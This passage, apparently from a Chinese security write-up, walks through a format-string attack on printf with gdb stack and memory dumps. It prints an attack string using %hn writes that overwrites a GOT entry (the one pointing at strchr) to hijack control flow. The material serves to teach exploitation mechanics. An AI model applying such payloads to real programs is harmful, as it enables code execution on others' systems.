 0x03 实例片段
=====

下面是内存的栈内存的变化情况来展示攻击的过程。

在调用printf时，执行call指令之前:

```
(gdb) uu $eip
=> 0x2a9188:    call   0x2a8880 <printf@plt>
   0x2a918d:    lea    eax,[ebx-0x1fb4]
   0x2a9193:    mov    DWORD PTR [esp],eax

```

此时的堆栈如下：

```
(gdb) dd $esp
0xBFFF4FE0 : BFFF501C 58601366 4049BEFE EF0F16F4
0xBFFF4FF0 : BFC8B039 004E6927 BFFF522C BFFF5024
0xBFFF5000 : BFFF5233 BFFF5026 58601366 4049BEFE
0xBFFF5010 : EF0F16F4 BFC8B039 00000001 342E3135
0xBFFF5020 : 33313239 2D202C37 39312E30 38373832
0xBFFF5030 : 31253A20 25633632 68243732 3432256E
0xBFFF5040 : 63363539 24383225 41416E68 002AD05E
0xBFFF5050 : 002AD05C 00280000 00470048 00000006

```

其中第一个参数BFFF501C，就是攻击字符串，从以下代码可以看到，目标地址是第27、28参数的两个地址：

```
(gdb) db BFFF501C
0xBFFF501C : 35 31 2E 34 39 32 31 33 - 37 2C 20 2D 30 2E 31 39 51.492137, -0.19
0xBFFF502C : 32 38 37 38 20 3A 25 31 - 32 36 63 25 32 37 24 68 2878 :%126c%27$h
0xBFFF503C : 6E 25 32 34 39 35 36 63 - 25 32 38 24 68 6E 41 41 n%24956c%28$hnAA
0xBFFF504C : 5E D0 2A 00 5C D0 2A 00 - 00 00 28 00 48 00 47 00 ^.*.\.*...(.H.G.

```

第27个参数是002AD05E，第28个参数是002AD05C，实际上是修改002AD05C处的4个字节。 目标地址002AD05C在调用printf之前的值是009843E0：

```
(gdb) dd 0x002AD05C
0x002AD05C : 009843E0 002A89B6 00921C00 002A89D6
0x002AD06C : 0099C620 002A89F6 00A07EC0 002A8A16
0x002AD07C : 009EF0D0 009371C0 009EEBD0 002A8A56
0x002AD08C : 00000000 002AD090 00000000 00000000

```

地址009843E0就是函数strchr，可以查看一下：

```
(gdb) uu 0x09843E0
   0x9843e0 <strchr>:   push   edi
   0x9843e1 <strchr+1>: mov    eax,DWORD PTR [esp+0x8]
   0x9843e5 <strchr+5>: mov    edx,DWORD PTR [esp+0xc]
   0x9843e9 <strchr+9>: mov    dh,dl

```
